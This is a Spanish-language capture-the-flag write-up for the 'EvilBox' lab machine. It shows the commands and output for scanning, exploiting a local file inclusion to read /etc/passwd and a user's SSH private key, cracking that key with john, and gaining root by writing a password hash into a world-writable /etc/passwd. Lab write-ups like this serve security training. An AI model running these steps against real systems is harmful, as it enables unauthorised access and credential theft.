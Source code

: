 ```yaml
---
title: EvilBox
published: true
---
```


---
## Intrusion
Empiezo haciendo un escaneo con nmap para ver puertos abiertos

```bash
❯ nmap 192.168.1.19
Nmap scan report for 192.168.1.19
Host is up (0.0024s latency).
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

![](https://eidd3.github.io/assets/img/evilbox/img1.png)

Uso nikto para ver posibles vulnerabilidades o recursos en la página

```bash
❯ nikto -h http://192.168.1.19/
---------------------------------------------------------------------------
+ Target IP:          192.168.1.19
+ Target Hostname:    192.168.1.19
+ Target Port:        80
+ Start Time:         2023-01-17 18:11:38 (GMT-3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ OSVDB-3092: /secret/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ End Time:           2023-01-17 18:12:00 (GMT-3) (22 seconds)
---------------------------------------------------------------------------
```

Me muestra un "_robots.txt_" un directorio **"/secret/"** y un **"/icons/README".**

Nada interesante en _robots.txt_ y **/secret** por ahora


![](https://eidd3.github.io/assets/img/evilbox/img2.png)

![](https://eidd3.github.io/assets/img/evilbox/img3.png)

Después de hacer fuzzing de subdominios u otras rutas y no encontrar nada, busque por archivos php o txt en el directorio **/secret/**

```bash
 gobuster dir -u http://192.168.1.19/secret/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 40 -x php,txt
===============================================================
Gobuster v3.1.0
===============================================================
[+] Url:                     http://192.168.1.19/secret/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
/evil.php             (Status: 200) [Size: 0]

===============================================================
2023/01/17 19:05:06 Finished
===============================================================
```

El recurso evil.php existe pero en la web todavía no muestra nada

![](https://eidd3.github.io/assets/img/evilbox/img4.png)

Tiene pinta de ser un Local File Inclusion (LFI), por lo que lanzo otro escaneo para detectar algún parámetro web con el que pueda listar archivos locales de la maquina

```bash
❯ wfuzz -c --hc=404 --hw=0 -w /opt/SecLists/Miscellaneous/web/html-tags.txt 'http://192.168.1.19/secret/evil.php?FUZZ=/etc/passwd' 2>/dev/null
********************************************************

Target: http://192.168.1.19/secret/evil.php?FUZZ=/etc/passwd
Total requests: 153

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                         
=====================================================================

000000032:   200        27 L     39 W       1458 Ch     "command"                                                                                       

Total time: 0
Processed Requests: 153
Filtered Requests: 152
Requests/sec.: 0
```

command parece ser el parámetro para intentar un LFI

![](https://eidd3.github.io/assets/img/evilbox/img5.png)

Funciona, por lo que ahora podemos probar ver la id_rsa de algún usuario del sistema

![](https://eidd3.github.io/assets/img/evilbox/img6.png)

Vemos la del usuario mowree pero está encriptada.

Con ssh2john podemos tratar de sacar la contraseña.

```bash
❯ /usr/share/john/ssh2john.py id_rsa > hash
```

```bash
❯ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
unicorn          (id_rsa)

Session completed
```


Tengo la contraseña de la id_rsa por lo que ahora puedo intentar conectarme por ssh ingresando la clave de la is_rsa pero sin poner la contraseña del usuario mowree


```bash
❯ ssh mowree@192.168.1.19 -i id_rsa
Enter passphrase for key 'id_rsa': 
Linux EvilBoxOne 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
mowree@EvilBoxOne:~$ whoami
mowree
mowree@EvilBoxOne:~$
```

## Elevando Privilegios

Si listamos los permisos del archivo /etc/passwd vemos que otros pueden escribir

```bash
mowree@EvilBoxOne:~$ ls -la /etc/passwd
-rw-rw-rw- 1 root root 1398 Aug 16  2021 /etc/passwd
```

Por lo que ahora podemos crear una contraseña para el usuario root y poner el hash en el /etc/passwd

```bash
❯ openssl passwd -1
Password: 
Verifying - Password: 
$1$eKwzP0P1$W4PsKYip9JqhXY2BAKMBe0
```

Con openssl generamos el hash de la contraseña "password123” y lo cambiamos por la x en /etc/passwd


![](https://eidd3.github.io/assets/img/evilbox/img7.png)

![](https://eidd3.github.io/assets/img/evilbox/img8.png)
